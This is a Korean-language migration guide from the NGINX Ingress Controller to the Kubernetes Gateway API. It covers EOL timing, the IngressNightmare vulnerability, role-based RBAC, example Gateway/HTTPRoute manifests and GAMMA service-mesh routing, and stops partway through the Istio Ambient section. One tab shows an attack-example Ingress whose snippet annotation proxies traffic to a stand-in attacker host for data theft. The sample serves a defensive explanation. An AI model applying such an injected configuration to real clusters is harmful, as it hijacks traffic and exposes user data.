import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';
import GatewayApiBenefits from '@site/src/components/GatewayApiBenefits';

# Gateway API 도입 가이드

> **📌 기준 버전**: Gateway API v1.4.0, Cilium v1.19.0, EKS 1.32, AWS LBC v3.0.0, Envoy Gateway v1.7.0

> 📅 **작성일**: 2025-02-12 | ⏱️ **읽는 시간**: 약 25분

## 1. 개요

2026년 3월 NGINX Ingress Controller의 공식 EOL(End-of-Life)을 앞두고, Kubernetes Gateway API로의 전환이 선택이 아닌 필수가 되었습니다. 이 가이드는 Gateway API의 아키텍처 이해부터 5개 주요 구현체(AWS LBC v3, Cilium, NGINX Gateway Fabric, Envoy Gateway, kGateway) 비교, Cilium ENI 모드 심화 구성, 단계별 마이그레이션 실행 전략, 성능 벤치마크 계획까지 포괄합니다.

### 1.1 이 문서의 대상

- **NGINX Ingress Controller를 운영 중인 EKS 클러스터 관리자**: EOL 대응 전략 수립
- **Gateway API 마이그레이션을 계획 중인 플랫폼 엔지니어**: 기술 선정 및 PoC 수행
- **트래픽 관리 아키텍처 현대화를 검토 중인 아키텍트**: 장기 로드맵 설계
- **Cilium ENI 모드와 Gateway API 통합을 고려하는 네트워크 엔지니어**: eBPF 기반 고성능 네트워킹

### 1.2 문서 구성

| 섹션 | 내용 | 읽는 순서 |
|------|------|-----------|
| **1. 개요** | 문서 구조, 대상 독자 | 필수 |
| **2. NGINX Ingress Retirement** | EOL 타임라인, 보안 위험 | 필수 |
| **3. Gateway API 아키텍처** | 3-Tier 모델, 역할 분리, GA 현황 | 필수 |
| **4. GAMMA Initiative** | 서비스 메시 통합, East-West 관리 | 권장 |
| **5. 솔루션 비교** | 5개 구현체 기능/성능/비용 비교 | 필수 |
| **6. NGINX 기능별 대안** | 8가지 기능 매핑, 코드 예시 | 선택 |
| **7. Cilium ENI + Gateway API** | 설치, 구성, 성능 최적화 | 선택 |
| **8. 마이그레이션 실행** | 5-Phase 전략, 체크리스트 | 실행 시 |
| **9. 벤치마크 계획** | 테스트 설계, 측정 지표 | 계획 시 |
| **10. 결론** | 로드맵, 권장사항 | 필수 |

:::info 읽기 전략
- **빠른 이해**: 섹션 1-3, 10 (약 10분)
- **기술 선정**: 섹션 1-5, 10 (약 20분)
- **전체 마이그레이션**: 전체 문서 (약 25분)
:::

---

## 2. NGINX Ingress Controller Retirement — 왜 전환이 필수인가

### 2.1 EOL 타임라인



**주요 이벤트 상세:**

- **2025년 3월**: IngressNightmare (CVE-2025-1974) 발견 — Snippets 어노테이션을 통한 임의 NGINX 설정 주입 취약점으로 Kubernetes SIG Network의 retirement 논의가 가속화됨
- **2025년 11월**: Kubernetes SIG Network에서 NGINX Ingress Controller의 공식 retirement 발표. 유지보수 인력 부족(1-2명의 메인테이너)과 Gateway API 성숙도를 주요 이유로 명시
- **2026년 3월**: 공식 EOL — 보안 패치 및 버그 수정 완전 중단. 이후 운영 환경 사용 시 컴플라이언스 위반 가능성

:::danger 필수 대응 사항
**2026년 3월 이후 NGINX Ingress Controller 사용 시 보안 취약점 패치가 제공되지 않습니다.** PCI-DSS, SOC 2, ISO 27001 등 보안 인증 유지를 위해서는 반드시 Gateway API 기반 솔루션으로 전환해야 합니다.
:::

### 2.2 보안 취약점 분석

**IngressNightmare (CVE-2025-1974) 공격 시나리오:**

<Tabs>
  <TabItem value="attack-overview" label="공격 개요" default>

  

  *Kubernetes 클러스터 내 Ingress NGINX Controller를 대상으로 한 비인증 원격 코드 실행(RCE) 공격 벡터. 외부 및 내부 공격자가 Malicious Admission Review를 통해 컨트롤러 Pod를 장악하고, 클러스터 내 전체 Pod에 접근 가능. (Source: [Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))*

  </TabItem>
  <TabItem value="architecture" label="컨트롤러 아키텍처">

  

  *Ingress NGINX Controller Pod 내부 아키텍처. Admission Webhook이 설정 검증 과정에서 공격자의 악성 설정을 NGINX에 주입하는 경로가 CVE-2025-1974의 핵심 공격 표면. (Source: [Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))*

  </TabItem>
  <TabItem value="exploit-code" label="공격 코드 예시">

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: malicious-ingress
  annotations:
    # 공격자가 임의의 NGINX 설정을 주입
    nginx.ingress.kubernetes.io/configuration-snippet: |
      location /admin {
        proxy_pass http://malicious-backend.attacker.com;
        # 인증 우회, 데이터 탈취, 백도어 설치 가능
      }
spec:
  ingressClassName: nginx
  rules:
  - host: production-api.example.com
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: production-service
            port:
              number: 80
```

  </TabItem>
</Tabs>

**위험도 평가:**

| 취약점 유형 | 심각도 | CVSS 점수 | 영향 범위 |
|-------------|--------|-----------|-----------|
| Snippets 어노테이션을 통한 임의 설정 주입 | **Critical** | 9.8 | 전체 Ingress 트래픽 장악 가능 |
| 스키마 검증 부재로 인한 잘못된 설정 전파 | **High** | 7.5 | 서비스 중단, 보안 정책 우회 |
| RBAC 권한 상승 공격 (네임스페이스 격리 무력화) | **Critical** | 9.1 | 크로스 네임스페이스 권한 탈취 |
| EOL 이후 패치 종료 | **Critical** | N/A | 제로데이 취약점 대응 불가 |

:::warning 현재 운영 중이라면
기존 NGINX Ingress 환경에서는 `nginx.ingress.kubernetes.io/configuration-snippet` 및 `nginx.ingress.kubernetes.io/server-snippet` 어노테이션 사용을 즉시 금지하는 admission controller 정책 적용을 권장합니다.
:::

### 2.3 전환의 당위성

Gateway API는 다음과 같은 방법으로 NGINX Ingress의 구조적 문제를 해결합니다:

**1. 역할 기반 분리로 Snippets 원천 차단**

<Tabs>
  <TabItem value="diagram" label="개념도" default>



각 팀은 자신의 권한 범위 내에서만 리소스를 관리할 수 있으며, NGINX Ingress의 Snippets 어노테이션처럼 임의 설정을 주입할 경로가 존재하지 않습니다.

  </TabItem>
  <TabItem value="code" label="RBAC 코드">

```yaml
# 인프라 팀: GatewayClass 관리 (클러스터 레벨 권한)
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: infrastructure-team
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gatewayclasses"]
  verbs: ["create", "update", "delete"]

---
# 플랫폼 팀: Gateway 관리 (네임스페이스 레벨 권한)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: platform-team
  namespace: platform-system
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gateways"]
  verbs: ["create", "update", "delete"]

---
# 애플리케이션 팀: HTTPRoute만 관리 (라우팅 규칙만 제어)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-team
  namespace: app-namespace
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["httproutes"]
  verbs: ["create", "update", "delete"]
```

  </TabItem>
</Tabs>

**2. CRD 스키마 기반 구조적 검증**

Gateway API는 OpenAPI 스키마로 모든 필드를 사전 정의하여 임의 설정 주입이 원천적으로 불가능합니다:

<Tabs>
  <TabItem value="diagram" label="개념도" default>



NGINX Ingress는 annotations에 임의 문자열을 주입할 수 있지만, Gateway API는 CRD 스키마로 사전 정의된 필드만 허용하여 구조적으로 안전합니다.

  </TabItem>
  <TabItem value="code" label="비교 코드">

```yaml
# ❌ NGINX Ingress (임의 문자열 주입 가능)
annotations:
  nginx.ingress.kubernetes.io/configuration-snippet: |
    <임의의 NGINX 설정>

# ✅ Gateway API (스키마 검증된 필드만 사용)
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /api
    filters:
    - type: RequestHeaderModifier  # 사전 정의된 필터만 사용 가능
      requestHeaderModifier:
        add:
        - name: X-Custom-Header
          value: production
```

  </TabItem>
</Tabs>

**3. Policy Attachment 패턴으로 안전한 확장**

Gateway API는 확장 기능을 별도의 Policy 리소스로 분리하여 RBAC 제어가 가능합니다:

<Tabs>
  <TabItem value="diagram" label="개념도" default>



확장 기능(Rate Limiting, L7 정책 등)은 별도의 Policy 리소스로 분리되어 RBAC으로 접근을 제어할 수 있습니다. 인프라 팀만 Policy를 관리하고, 애플리케이션 팀은 HTTPRoute만 수정합니다.

  </TabItem>
  <TabItem value="code" label="Policy 코드">

```yaml
# Cilium의 CiliumNetworkPolicy로 L7 보안 정책 적용
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: api-rate-limiting
spec:
  endpointSelector:
    matchLabels:
      app: api-gateway
  ingress:
  - fromEndpoints:
    - matchLabels:
        role: frontend
    toPorts:
    - ports:
      - port: "80"
        protocol: TCP
      rules:
        http:
        - method: "GET"
          path: "/api/.*"
          rateLimit:
            requestsPerSecond: 100
```

  </TabItem>
</Tabs>

**4. 활발한 커뮤니티 지원**

- **15개 이상의 프로덕션 구현체**: AWS, Google Cloud, Cilium, Envoy, NGINX, Istio 등
- **분기별 정규 릴리스**: v1.4.0 기준 GA 리소스 포함
- **CNCF 공식 프로젝트**: Kubernetes SIG Network 주도 개발

---

## 3. Gateway API — 차세대 트래픽 관리 표준

### 3.1 Gateway API 아키텍처


*출처: [Kubernetes Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/) — 3개의 역할(Infrastructure Provider, Cluster Operator, Application Developer)이 각각 GatewayClass, Gateway, HTTPRoute를 관리*

**주요 차이점:**

| 측면 | NGINX Ingress | Gateway API |
|------|---------------|-------------|
| **리소스 구조** | 단일 Ingress 리소스에 모든 설정 포함 | 3개 리소스로 관심사 분리 (GatewayClass, Gateway, HTTPRoute) |
| **설정 방식** | 비표준 어노테이션 (50개 이상) | 표준 CRD 필드 |
| **권한 관리** | 네임스페이스 레벨 Ingress 권한으로 모든 설정 제어 가능 | 리소스별 RBAC 분리 (인프라/플랫폼/앱 팀) |
| **컨트롤러 교체** | 전체 Ingress 재작성 필요 | GatewayClass만 변경 |
| **확장성** | Snippet 주입 또는 커스텀 컨트롤러 | Policy Attachment 패턴 |

### 3.2 3-Tier 리소스 모델

Gateway API는 다음과 같은 계층 구조로 책임을 분리합니다:


*출처: [Kubernetes Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/concepts/api-overview/) — GatewayClass → Gateway → xRoute → Service 계층 구조*

**역할별 권한 및 책임:**

| 리소스 | 관리 주체 | 책임 범위 | 일반적인 변경 빈도 |
|--------|-----------|-----------|-------------------|
| **GatewayClass** | 인프라 팀 (SRE, 클러스터 관리자) | 컨트롤러 선택, 전역 정책, 비용 최적화 | 분기별 1-2회 |
| **Gateway** | 플랫폼 팀 (네트워크 엔지니어) | 리스너 구성, TLS 인증서, 로드밸런서 설정 | 월 1-2회 |
| **HTTPRoute** | 애플리케이션 팀 (개발자) | 서비스별 라우팅, Canary 배포, A/B 테스트 | 일 단위 |
| **Service** | 애플리케이션 팀 (개발자) | 백엔드 엔드포인트 관리 | 배포 시마다 |

**RBAC 예제:**

```yaml
---
# 인프라 팀: GatewayClass 전용 권한
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: infrastructure-gateway-manager
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gatewayclasses"]
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]

---
# 플랫폼 팀: Gateway 관리 권한 (특정 네임스페이스)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: platform-gateway-manager
  namespace: gateway-system
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gateways"]
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
- apiGroups: [""]
  resources: ["secrets"]  # TLS 인증서 관리
  verbs: ["get", "list"]

---
# 애플리케이션 팀: HTTPRoute만 관리 (자신의 네임스페이스)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-route-manager
  namespace: production-app
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["httproutes", "referencegrants"]
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
- apiGroups: [""]
  resources: ["services"]
  verbs: ["get", "list"]
```

### 3.3 GA 현황 (v1.4.0)

Gateway API는 Standard Channel과 Experimental Channel로 나뉘며, 리소스별 성숙도가 다릅니다:

| 리소스 | 채널 | 상태 | 프로덕션 권장 | 비고 |
|--------|------|------|---------------|------|
| **GatewayClass** | Standard | GA (v1) | ✅ | 컨트롤러 정의, 파라미터 참조 |
| **Gateway** | Standard | GA (v1) | ✅ | 리스너, TLS, 로드밸런서 설정 |
| **HTTPRoute** | Standard | GA (v1) | ✅ | HTTP 라우팅, 헤더/쿼리 매칭 |
| **GRPCRoute** | Standard | GA (v1) | ✅ | gRPC 서비스 메시 매칭 |
| **ReferenceGrant** | Standard | GA (v1beta1) | ✅ | 크로스 네임스페이스 참조 보안 |
| **BackendTLSPolicy** | Standard | Beta (v1alpha3) | ⚠️ | 백엔드 TLS 종단 (mTLS) |
| **TLSRoute** | Experimental | Alpha (v1alpha2) | ❌ | TLS Passthrough (SNI 라우팅) |
| **TCPRoute** | Experimental | Alpha (v1alpha2) | ❌ | L4 TCP 라우팅 |
| **UDPRoute** | Experimental | Alpha (v1alpha2) | ❌ | L4 UDP 라우팅 (DNS, VoIP) |

:::warning Experimental 채널 주의사항
Alpha 상태의 리소스는 **API 호환성 보장이 없으며**, 마이너 버전 업그레이드 시 필드 변경 또는 삭제 가능성이 있습니다. 프로덕션 환경에서는 Standard 채널의 GA/Beta 리소스만 사용하는 것을 권장합니다.
:::

### 3.4 핵심 이점

Gateway API의 6가지 핵심 이점을 시각적 다이어그램과 YAML 예제로 살펴봅니다.

<GatewayApiBenefits />

### 3.5 기본 리소스 예제

실제 프로덕션 환경에서 사용하는 Gateway API 리소스 배포 순서입니다:

<Tabs>
  <TabItem value="overview" label="배포 흐름도" default>



Gateway API 리소스는 역할별로 분리 배포됩니다. 인프라 팀이 GatewayClass를, 플랫폼 팀이 Gateway를, 앱 팀이 HTTPRoute를 각각 관리합니다.

  </TabItem>
  <TabItem value="step1" label="Step 1: GatewayClass">

**GatewayClass 정의 (인프라 팀)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: GatewayClass
metadata:
  name: aws-network-load-balancer
spec:
  controllerName: aws.gateway.networking.k8s.io
  description: "AWS Network Load Balancer with PrivateLink support"
  parametersRef:
    group: elbv2.k8s.aws
    kind: TargetGroupPolicy
    name: nlb-performance-profile
```

  </TabItem>
  <TabItem value="step2" label="Step 2: Gateway">

**Gateway 생성 (플랫폼 팀)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  namespace: gateway-system
  annotations:
    # AWS NLB 전용 어노테이션
    service.beta.kubernetes.io/aws-load-balancer-type: "nlb"
    service.beta.kubernetes.io/aws-load-balancer-scheme: "internet-facing"
    service.beta.kubernetes.io/aws-load-balancer-cross-zone-load-balancing-enabled: "true"
    service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: "ip"
spec:
  gatewayClassName: aws-network-load-balancer
  listeners:
  # HTTP Listener (자동 HTTPS 리다이렉트)
  - name: http
    protocol: HTTP
    port: 80

  # HTTPS Listener (ACM 인증서)
  - name: https
    protocol: HTTPS
    port: 443
    tls:
      mode: Terminate
      certificateRefs:
      - kind: Secret
        name: acm-certificate
        namespace: gateway-system
    allowedRoutes:
      namespaces:
        from: All  # 모든 네임스페이스의 HTTPRoute 허용
```

  </TabItem>
  <TabItem value="step3" label="Step 3: HTTPRoute">

**HTTPRoute 설정 (애플리케이션 팀)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: backend-api
  namespace: production-app
spec:
  parentRefs:
  - name: production-gateway
    namespace: gateway-system
    sectionName: https

  hostnames:
  - "api.example.com"

  rules:
  # Canary 배포 (90% v1, 10% v2)
  - matches:
    - path:
        type: PathPrefix
        value: /api
    backendRefs:
    - name: backend-v1
      port: 8080
      weight: 90
    - name: backend-v2
      port: 8080
      weight: 10

    filters:
    # 헤더 추가
    - type: RequestHeaderModifier
      requestHeaderModifier:
        add:
        - name: X-Backend-Version
          value: canary

    # URL Rewrite
    - type: URLRewrite
      urlRewrite:
        path:
          type: ReplacePrefixMatch
          replacePrefixMatch: /v1/api
```

  </TabItem>
  <TabItem value="step4" label="Step 4: ReferenceGrant">

**ReferenceGrant (크로스 네임스페이스 참조)**

```yaml
# gateway-system 네임스페이스의 Gateway를 다른 네임스페이스에서 참조 허용
apiVersion: gateway.networking.k8s.io/v1beta1
kind: ReferenceGrant
metadata:
  name: allow-httproutes-from-all
  namespace: gateway-system
spec:
  from:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    namespace: production-app
  to:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: production-gateway
```

  </TabItem>
  <TabItem value="step5" label="Step 5: 검증">

**배포 및 검증**

```bash
# 리소스 배포
kubectl apply -f gatewayclass.yaml
kubectl apply -f gateway.yaml
kubectl apply -f referencegrant.yaml
kubectl apply -f httproute.yaml

# Gateway 상태 확인
kubectl get gateway production-gateway -n gateway-system
# NAME                  CLASS                        ADDRESS          PROGRAMMED   AGE
# production-gateway    aws-network-load-balancer    a1b2c3.elb.aws   True         5m

# HTTPRoute 상태 확인
kubectl get httproute backend-api -n production-app
# NAME          HOSTNAMES              AGE
# backend-api   ["api.example.com"]    2m

# Gateway 주소 확인
kubectl get gateway production-gateway -n gateway-system \
  -o jsonpath='{.status.addresses[0].value}'

# 트래픽 테스트 (Canary 비율 확인)
for i in {1..100}; do
  curl -s https://api.example.com/api/health | jq -r '.version'
done | sort | uniq -c
# 출력 예시:
#   90 v1
#   10 v2
```

  </TabItem>
</Tabs>

:::tip 네이티브 Canary 배포
Gateway API는 `weight` 필드를 통해 어노테이션 없이 Canary 배포를 지원합니다. NGINX Ingress의 `nginx.ingress.kubernetes.io/canary` 어노테이션 조합보다 간결하고 이식성이 높습니다.
:::

## 4. GAMMA Initiative — 서비스 메시 통합의 미래

### 4.1 GAMMA란?

**GAMMA (Gateway API for Mesh Management and Administration)**는 Gateway API를 서비스 메시 영역으로 확장한 이니셔티브입니다.

- **GA 달성**: Gateway API v1.1.0 (2025년 10월)
- **통합 범위**: North-South (인그레스) + East-West (서비스 메시) 트래픽
- **핵심 개념**: 기존에는 인그레스 컨트롤러와 서비스 메시가 완전히 별개의 설정 체계였으나, GAMMA는 이를 단일 API로 통합
- **역할 기반 구성**: Gateway API의 역할 분리 원칙을 메시 트래픽에도 동일하게 적용

GAMMA의 등장으로 클러스터 운영자는 더 이상 두 가지 서로 다른 API를 학습하고 관리할 필요가 없습니다. 인그레스와 메시 모두 동일한 Gateway API 리소스로 관리할 수 있게 되었습니다.

### 4.2 핵심 목표

GAMMA 이니셔티브는 다음 4가지 핵심 목표를 달성하고자 합니다.

#### 1. 통합 API

인그레스와 서비스 메시를 동일한 Gateway API 리소스로 관리합니다. 팀은 하나의 API 모델만 학습하면 되며, 설정 파일의 일관성이 향상됩니다.

#### 2. 역할 기반 구성

Gateway API의 강력한 역할 분리 원칙을 메시 트래픽에도 적용합니다.

- **인프라 관리자**: GatewayClass와 기본 Gateway 정책 관리
- **클러스터 운영자**: 네임스페이스별 Gateway 구성
- **애플리케이션 개발자**: HTTPRoute, TCPRoute 등으로 라우팅 정책 정의

#### 3. 최소 API 변경

기존 Gateway API에 최소한의 변경만 추가하여 메시 기능을 지원합니다. 이미 Gateway API를 사용 중인 팀은 추가 학습 부담 없이 메시 기능을 도입할 수 있습니다.

#### 4. 구현체 간 일관성

Istio, Cilium, Linkerd 등 다양한 메시 구현체에서 동일한 API를 사용합니다. 이는 벤더 종속을 줄이고 마이그레이션을 용이하게 합니다.

### 4.3 메시 구성 패턴

GAMMA의 핵심은 **HTTPRoute를 Service에 직접 연결하는 패턴**입니다. 기존 인그레스에서는 HTTPRoute가 Gateway를 참조했지만, 메시에서는 Service를 직접 참조합니다.



**패턴 설명**:
- **North-South (인그레스)**: HTTPRoute가 Gateway를 parentRef로 참조
- **East-West (메시)**: HTTPRoute가 Service를 parentRef로 참조
- **결과**: Service A에서 Service B로 가는 트래픽에 L7 정책(재시도, 타임아웃, 트래픽 분할) 적용 가능

#### GAMMA HTTPRoute 예제

<Tabs>
  <TabItem value="concept" label="개념도" default>

위의 mermaid 다이어그램에서 보듯이, GAMMA 패턴에서는 HTTPRoute가 Gateway가 아닌 **Service를 직접 parentRef로 참조**합니다. 이를 통해 East-West 트래픽에 L7 정책을 적용할 수 있습니다.

**적용 효과:**

| 항목 | 값 |
|------|-----|
| 요청 타임아웃 | 10초 |
| 최대 재시도 | 3회 (100ms 백오프) |
| 특징 | Gateway 없이 Service 간 직접 L7 정책 적용 |

  </TabItem>
  <TabItem value="code" label="HTTPRoute 코드">

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: service-b-retry
  namespace: production
spec:
  parentRefs:
    - group: ""
      kind: Service
      name: service-b    # Gateway가 아닌 Service에 attach
  rules:
    - backendRefs:
        - name: service-b
          port: 8080
      timeouts:
        request: 10s
      retry:
        attempts: 3
        backoff: 100ms
```

  </TabItem>
</Tabs>

### 4.4 Istio Ambient Mode와의 관계

**Istio Ambient Mode**는 GAMMA 패턴의 가장 대표적인 구현 사례입니다.

#### Ambient Mode 개요

- **상태**: Beta (Istio v1.22+), GA 예정 (v1.24)
- **핵심 개념**: 사이드카 없는 서비스 메시 아키텍처
- **장점**: 리소스 오버헤드 대폭 감소, 애플리케이션 재배포 불필요

#### 아키텍처 구성요소

**1. ztunnel (Zero Trust Tunnel)**

- 각 노드에 DaemonSet으로 실행
